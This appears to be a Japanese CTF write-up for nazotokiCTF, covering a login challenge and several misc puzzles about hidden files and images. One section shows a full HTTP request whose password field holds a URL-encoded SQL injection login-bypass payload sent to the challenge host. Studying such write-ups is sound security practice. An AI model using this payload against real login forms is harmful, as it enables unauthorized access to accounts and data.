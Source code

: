 フラグのヒントはナンバー9999に載っており、パスワードは普通には見れないらしい。

社員ナンバー「9999」と、試しにSQLインジェクションでログインできるか確認してみる。
```http
POST / HTTP/2
Host: aquarius.ctf.nazotoki.tech
Content-Length: 66
Cache-Control: max-age=0
Sec-Ch-Ua: "-Not.A/Brand";v="8", "Chromium";v="102"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
Origin: https://aquarius.ctf.nazotoki.tech
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/102.0.5005.63 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://aquarius.ctf.nazotoki.tech/
Accept-Encoding: gzip, deflate
Accept-Language: ja,en-US;q=0.9,en;q=0.8

inputNumber=9999&inputPassword=%27OR%271%27%3D%271%27%23++&search=
```

レスポンスに「nazotokiCTF{`この候補者の苗字`}」と表示される。

改めてプロローグを読むと「**タカハシ**」が正解であることがわかる。

## Misc - Water elements
### かに座
仲間はずれを探せ

与えられたcancer.zipを展開すると拡張子なしのファイルが13個出てくる。

bpp形式の画像であることがわかるが、ファイル名「f0525aafa095ed2665d03681537a70ea」だけテキスト形式。

テキストに直接フラグが記載されている。

nazotokiCTF{**イイワケ**}

### さそり座
犬の写真scorpio.jpgが与えられる。

フラグの形式で囲われていないため不安だったが、目に白文字で書かれている`カクダイ`がそのまま正解。

### うお座

> みずがめ座からてんびん座に向かうとき、ひみつの鍵が手に入るだろう。水の中に浮かぶ真実を見定めよ。
